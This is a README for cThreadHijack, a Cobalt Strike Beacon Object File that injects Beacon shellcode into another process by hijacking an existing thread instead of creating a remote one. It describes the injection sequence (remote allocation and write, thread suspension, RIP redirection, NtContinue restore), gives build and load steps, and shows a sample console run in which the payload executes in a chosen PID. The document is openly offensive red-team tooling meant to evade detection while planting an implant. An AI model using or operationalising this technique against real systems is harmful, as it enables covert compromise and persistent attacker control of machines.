 ## cThreadHijack
```
     ___________.__                              .______ ___ .__     __               __    
  ___\__    ___/|  |_________   ____ _____     __| _/   |   \|__|   |__|____    ____ |  | __
_/ ___\|    |   |  |  \_  __ \_/ __ \\__  \   / __ /    ~    \  |   |  \__  \ _/ ___\|  |/ /
\  \___|    |   |   Y  \  | \/\  ___/ / __ \_/ /_/ \    Y    /  |   |  |/ __ \\  \___|    < 
 \___  >____|   |___|  /__|    \___  >____  /\____ |\___|_  /|__/\__|  (____  /\___  >__|_ \
     \/              \/            \/     \/      \/      \/    \______|    \/     \/     \/
```
Beacon Object File (BOF) for remote process injection, via thread hijacking, without spawning a remote thread. cThreadHijack works by injecting raw Beacon shellcode, generated via a user-supplied listener argument, into a remote process, defined by the user-supplied PID argument, via `VirtualAllocEx` and `WriteProcessMemory`. Then, instead of spawning a new remote thread via `CreateRemoteThread` or other APIs, cThreadHijack identifies the first enumerated thread in the target process, suspends it, and retrieves the contents of the thread's CPU state via a CONTEXT structure. Then, the RIP register member of the CONTEXT structure (on 64-bit systems) is manipulated to point to the address of the aforementioned remote Beacon shellcode. Prior to execution, a routine is added to wrap the Beacon shellcode inside of a call to `CreateThread` - giving Beacon its own thread to work in, with this thread being locally spawned, versus being spawned remotely. The `CreateThread` routine is also wrapped in an `NtContinue` function call routine, allowing restoration of the previously hijacked thread without crashing the remote process. Beacon payloads for cThreadHijack are generated with a 'thread' exit function, allowing process continuation after the Beacon has been exited. Beacon listener names, when containing a space, must be placed in quotes.

### BUILDING: ###
1. On a Windows machine, open a `x64 Native Tools Command Prompt for VS` prompt. This can be done by pressing the Windows key and typing `x64 Native Tools` and selecting the prompt.
2. Change directory to `C:\path\to\cThreadHijack`.
3. `nmake -f Makefile.msvc build`
4. Load cThreadHijack.cna through the Cobalt Strike `Script Console` with `load /path/to/cThreadHijack.cna`

### USAGE: ###
`cThreadHijack PID LISTENER_NAME`

```
beacon> cThreadHijack 7340 TESTING
[+] host called home, sent: 268433 bytes
[+] received output:
[+] Target process PID: 7340

[+] received output:
[+] Opened a handle to PID 7340

[+] received output:
[+] Found a thread in the target process! Thread ID: 10212

[+] received output:
[+] Suspending the targeted thread...

[+] received output:
[+] Wrote Beacon shellcode to the remote process!

[+] received output:
[+] Virtual memory for CreateThread and NtContinue stubs allocated at 0x201f4ab0000 inside of the remote process!

[+] received output:
[+] Size of NtContinue stub: 48 bytes
[+] Size of CONTEXT structure: 1232 bytes
[+] Size of stack alignment routine: 4
[+] Size of CreateThread routine: 48
[+] Size of shellcode: 261632 bytes

[+] received output:
[+] Wrote payload to buffer to previously allocated buffer inside of!

[+] received output:
[+] Current RIP: 0x7ffa55df69a4

[+] received output:
[+] Successfully pointed the target thread's RIP register to the shellcode!

[+] received output:
[+] Current RIP: 0x201f4ab0000

[+] received output:
[+] Resuming the thread! Please wait a few moments for the Beacon payload to execute...
```

